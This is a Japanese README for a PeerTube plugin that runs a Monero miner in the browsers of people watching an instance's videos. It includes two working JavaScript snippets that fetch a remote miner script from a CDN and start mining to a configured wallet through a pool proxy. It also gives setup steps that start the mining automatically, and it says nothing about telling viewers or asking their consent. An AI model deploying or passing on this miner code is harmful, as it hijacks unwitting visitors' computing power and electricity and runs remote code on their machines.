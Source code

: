 <div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./modenart-sempai.png" width="320" height="240">

Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。

このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。

・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a>

・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a>

</div>

# PeerTube plugin Quickstart

See https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

https://github.com/NajmAjmal/monero-webminer

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./setting.png">

</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

https://www.npmjs.com/package/peertube-plugin-monero-miner

・プロフィール

https://x.com/PYU224

https://linksta.cc/@pyu224

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

https://github.com/PYU224/misskey-data
